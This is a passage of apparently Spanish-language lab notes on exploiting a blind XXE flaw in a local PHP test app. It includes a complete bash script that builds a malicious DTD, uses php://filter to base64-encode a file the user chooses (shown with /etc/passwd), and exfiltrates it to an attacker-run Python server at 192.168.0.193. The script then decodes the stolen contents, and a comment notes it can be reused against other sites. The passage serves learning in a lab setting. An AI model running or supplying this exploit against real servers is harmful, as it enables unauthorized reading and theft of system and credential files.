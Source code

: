 ![[XXE 7.png]]

Luego de enviar esta petición, y que nuestro archivo "**malicious.dtd**" sea interpretado, **nos llegará todo el contenido del /etc/passwd en base64 a nuestro servidor web** montado con Python.

![[XXE 8.png]]

Esto está genial pero el único inconveniente es que **sería demasiado tedioso tener que ir decodificando base64 en cada ruta** que estemos inspeccionando, ya sea porque estamos buscando alguna información especifica o algo que nos interese, claramente se puede hacer de manera manual, pero **podríamos crear un script para automatizar todo el proceso de decodificación**.

```bash
#!/bin/bash

echo -en "[*] Indique la ruta absoluta del archivo que quiere leer: " && read -r myFilename

malicious="""
<!ENTITY % file SYSTEM \"php://filter/convert.base64-encode/resource=$myFilename\">
<!ENTITY % eval \"<!ENTITY &#x25; exfil SYSTEM 'http://192.168.0.193:222/?file=%file;'>\">
%eval;
%exfil;"""

echo $malicious > malicious.dtd

python3 -m http.server 222 &>response &

PID=$!

sleep 1

# SI SE QUIERE USAR ESTE SCRIPT PARA OTRA WEB, SOLO HAY QUE REEMPLAZAR EL SIGUIENTE CURL, POR LOS DATOS PROPORCIONADOS POR LA WEB NUEVA

# PETICIÓN POR POST CON TODO EL CONTENIDO XML EN FORMATO RAW, COPIADO DESDE BURPSUITE
curl -s -X POST "http://localhost:5000/process.php" -d '<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://192.168.0.193:222/malicious.dtd"> %xxe;]>
<root>
<name>test</name><tel>123546789</tel><email>test@test.com</email><password>test1234</password></root>' &>/dev/null

echo -e "\n\n[+] El contenido del archivo es:\n "

file= cat response | grep -oP "/?file=\K[^.*\s]+" | base64 -d

kill -9 $PID
wait $PID 2>/dev/null

rm response
rm malicious.dtd
```